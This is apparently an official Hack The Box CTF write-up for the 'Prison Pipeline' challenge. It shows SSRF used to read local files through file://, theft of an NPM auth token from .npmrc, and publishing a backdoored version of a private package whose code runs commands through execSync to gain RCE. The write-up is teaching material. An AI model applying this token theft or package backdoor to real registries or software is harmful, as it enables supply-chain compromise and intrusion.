





        <font size="5px">Prison Pipeline</font>

​      23<sup>rd</sup> May 2024

​      Prepared By: Rayhan0x01

​      Challenge Author(s): Rayhan0x01

​      Difficulty: <font color=green>Easy</font>

​      Classification: Official


# [Synopsis](#synopsis)

* The challenge involves exploiting SSRF to exfiltrate a private NPM token and executing RCE through a supply-chain attack.


## Description

* One of our crew members has been captured by mutant raiders and is locked away in their heavily fortified prison. During an initial reconnaissance, the crew managed to gain access to the prison's record management system. Your mission: exploit this system to infiltrate the prison's network and disable the defenses for the rescuers. Can you orchestrate the perfect escape and rescue your comrade before it's too late?


## Skills Required

* HTTP requests interception via proxy tools, e.g., Burp Suite / OWASP ZAP.
* Proficiency in Server-Side Request Forgery (SSRF) techniques.
* Basic understanding of Node.js ecosystem and NPM registry.
* Familiarity with supply-chain attack vectors in software development.


## Skills Learned

* Exploiting SSRF to LFR via file:// protocol.
* Publishing rogue package to Node.JS registry.
* Remote Code Execution (RCE) through supply-chain attacks.


# [Solution](#solution)

### Application Stack Review

The challenge provides the entire application source code. Let's go over from the Docker entrypoint script which provisions everything for the challenge. From the [config/supervisord.conf](config/supervisord.conf) file, the challenge host is running 4 separate programs:

```

[program:nginx]
user=root
command=nginx
autostart=true
logfile=/dev/null
logfile_maxbytes=0

[program:registry]
directory=/home/node
user=node
command=verdaccio --config /home/node/.config/verdaccio/config.yaml
autostart=true
autorestart=true
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0

[program:pm2-node]
directory=/app
user=node
environment=HOME=/home/node,PM2_HOME=/home/node/.pm2,PATH=%(ENV_PATH)s
command=pm2-runtime start /app/prod.config.js
autostart=true
autorestart=true
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0

[program:cronjob]
directory=/app
user=node
environment=HOME=/home/node,PM2_HOME=/home/node/.pm2,PATH=%(ENV_PATH)s
command=/home/node/cronjob.sh
autostart=true
logfile=/dev/null
logfile_maxbytes=0
```

If we take a look at the config files for each of these services, we can get a basic idea of their purpose. Here's a basic diagram showcasing their connection with each other:




The cronjob script seems to check and update only one private package and restart the main application if updated:

```sh
#!/bin/bash

# Secure entrypoint
chmod 600 /home/node/.config/cronjob.sh

# Set up variables
REGISTRY_URL="http://localhost:4873"
APP_DIR="/app"
PACKAGE_NAME="prisoner-db"

cd $APP_DIR;

while true; do
    # Check for outdated package
    OUTDATED=$(npm --registry $REGISTRY_URL outdated $PACKAGE_NAME)

    if [[ -n "$OUTDATED" ]]; then
        # Update package and restart app
        npm --registry $REGISTRY_URL update $PACKAGE_NAME
        pm2 restart prison-pipeline
    fi

    sleep 30
done
```


This `prisoner-db` package is published during the `docker build` stage via the [config/setup-registry.sh](config/setup-registry.sh) script. From the [prisoner-db/index.js](challenge/prisoner-db/index.js) file, a database class interface is exported as the package which is used by the main application:

```js
/**
 * Database interface for prisoners of Prison-Pipeline.
 * @class Database
 * @param {string} repository - Path to existing database repository.
 * @example
 * const db = new Database('/path/to/repository');
**/
```

In the main application source, we can see this package being used in the [application/routes/index.js](challenge/application/routes/index.js) file:

```js
const prisonerDB = require('prisoner-db');

const db = new prisonerDB('/app/prisoner-repository');
```

The private proxy registry software in-use is [Verdaccio](https://verdaccio.org/). From it's configuration file in [config/verdaccio.yaml](config/verdaccio.yaml), we can see the access control defined for different packages:

```yaml
packages:
  'prisoner-*':
    # scoped packages
    access: $all
    publish: $authenticated
    # don't query external registry
    # proxy: npmjs

  '@*/*':
    access: $all
    publish: $authenticated
    proxy: npmjs

  '**':
    access: $all
    publish: $authenticated
    proxy: npmjs
```

This essentially means that all packages starting with `prisoner-` prefix will not be collected from external registry like NPM. To publish a package, the user has to be authenticated to the registry.

We can now imagine a scenario in which, if we publish a newer version of the prisoner-db package to the private registry, we can trigger code execution on the main application. The next step is figuring out how to get authenticated to the registry.


### Exploiting SSRF to LFR

Visiting the application homepage displays the following interface:




We can load different records by selecting a card from the right. We can't update the records but the "Import Prisoner Record" option seems to be functional. If we submit "http://www.google.com" and import, a new card is added to the right. If we load the card, we can see the response of the submitted URL as a record:



This is a full-read SSRF vulnerability in the application. We can trace this vulnerable code to the private package's [prisoner-db/index.js](challenge/prisoner-db/index.js) file:

```js
async importPrisoner(url) {
    try {
        const getResponse = await curl.get(url);
        const xmlData = getResponse.body;

        const id = `PIP-${Math.floor(100000 + Math.random() * 900000)}`;

        const prisoner = {
            id: id,
            data: xmlData
        };

        this.addPrisoner(prisoner);
        return id;
    }
    catch (error) {
        console.error('Error importing prisoner:', error);
        return false;
    }
}
```

The `curl` object here is an instance of a custom class which is just a wrapper for the [node-libcurl](https://www.npmjs.com/package/node-libcurl) library. It is well-established at this point that if you have SSRF via `libcurl` you can utilize the `file://` protocol to read local files:


With the newly discovered exploit to read local files, the next logical step is identifying any secrets on the filesystem that we can exfiltrate to exploit further.

### Hijacking Registry Access with Stolen Auth Token

If we want to hijack the `prisoner-db` library, we need access to the user account that published the package. Reviewing the [config/setup-registry.sh](config/setup-registry.sh) file, we can see a user `registry` is created with the `npm` cli to publish the package to the private registry:

```sh
NPM_USERNAME="registry"
NPM_EMAIL="registry@prison-pipeline.htb"
NPM_PASSWORD=$(< /dev/urandom tr -dc 'a-zA-Z0-9' | fold -w 32 | head -n 1)

...snip...

# Add registry user
/usr/bin/expect <<EOD
spawn npm adduser --registry $REGISTRY_URL
expect {
  "Username:" {send "$NPM_USERNAME\r"; exp_continue}
  "Password:" {send "$NPM_PASSWORD\r"; exp_continue}
  "Email: (this IS public)" {send "$NPM_EMAIL\r"; exp_continue}
}
EOD

# Publish private package
cd $PRISONER_DB_PKG_DIR
npm publish --registry $REGISTRY_URL

```

The `npm` cli was run under the linux `node` username . We can read the auth token stored by the `npm` cli from  the `/home/node/.npmrc` file:




From the [config/nginx.conf](config/nginx.conf) file, the `registry.prison-pipeline.htb` hostname is defined to reverse proxy traffic to the registry service:

```nginx
server {
    listen 1337;
    server_name registry.prison-pipeline.htb;

    location / {
        proxy_pass http://localhost:4873/;
        proxy_set_header Host $host:$server_port;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
        proxy_set_header X-NginX-Proxy true;
    }
}
```

We can edit the exfiltrated `.npmrc` content to reflect the host and port of the challenge and save it in our own `~/.npmrc` file:

```ini
//registry.prison-pipeline.htb:1337/:_authToken="ODk3ODFjODRiYWY3M2Y0M2I3N2JkYTNlZmJlZmQ4ZTA6MDcyNDBiNGM2MmI5OThhYjNjN2U2OGZkMzcxYmRmNjhkNGVlZWM3YjdlOGNiMjFiODljNzAwZGMyNzA0NmFkNDE5OTM4YTdkNDc2ZDlkYzE3Yg=="
```

We also have to add an entry to the `/etc/hosts` file to resolve the hostname to the challenge IP address:

```init
127.0.0.1	localhost registry.prison-pipeline.htb
```

We can verify that the auth token is working properly by running the `npm whoami` command:

```sh
npm --registry=http://registry.prison-pipeline.htb:1337 whoami

# registry
```

We now have access to the private registry account on the challenge registry.


### Publishing Malicious Package Version for RCE

With access to the publishing account of the `prisoner-db` package, we can now craft a malicious version of the package and release it as a newer version to trigger updates. We will implement a backdoor in the  `importPrisoner` function defined in the  [prisoner-db/index.js](challenge/prisoner-db/index.js) file:

```js
    async importPrisoner(url) {
        // implement backdoor
        const child_process = require('child_process');
        if (url.includes('CREW_BACKDOOR:')) {
            try {
                let cmd = url.replace('CREW_BACKDOOR:', '');
                let output = child_process.execSync(cmd).toString();
                return output;
            }
            catch (error) {
                return 'CREW_BACKDOOR: Error executing command.';
            }
        }
        
        // rest of the function code
```

We are modifying the function responsible for importing prisoner records by URL to execute system commands if the URL starts with `CREW_BACKDOOR:` prefix. We'll update the package version in the [prisoner-db/package.json](challenge/prisoner-db/package.json) file to `1.0.1`:

```json
"version": "1.0.1",
```

We can now publish the new version of the package to the private registry by running the following command:

```sh
$ npm --registry=http://registry.prison-pipeline.htb:1337 publish

npm notice 
npm notice 📦  prisoner-db@1.0.1
npm notice === Tarball Contents === 
npm notice 68B   README.md   
npm notice 1.7kB curl.js     
npm notice 3.7kB index.js    
npm notice 375B  package.json
npm notice === Tarball Details === 
npm notice name:          prisoner-db                             
npm notice version:       1.0.1                                   
npm notice filename:      prisoner-db-1.0.1.tgz                   
npm notice package size:  1.9 kB                                  
npm notice unpacked size: 5.9 kB                                  
npm notice shasum:        45089115a6c28a60be40eec5dd3439e196aa13e0
npm notice integrity:     sha512-c+2a/AXllhuvh[...]ytI6OM7GiwI2Q==
npm notice total files:   4                                       
npm notice 
+ prisoner-db@1.0.1
```

The cronjob on the system will update the package and have the backdoor in place to trigger the RCE. We can now utilize the backdoor by requesting the `/api/prisoners/import` function:




We have successfully compromised the system and can read the flag by executing the `/readflag` binary.


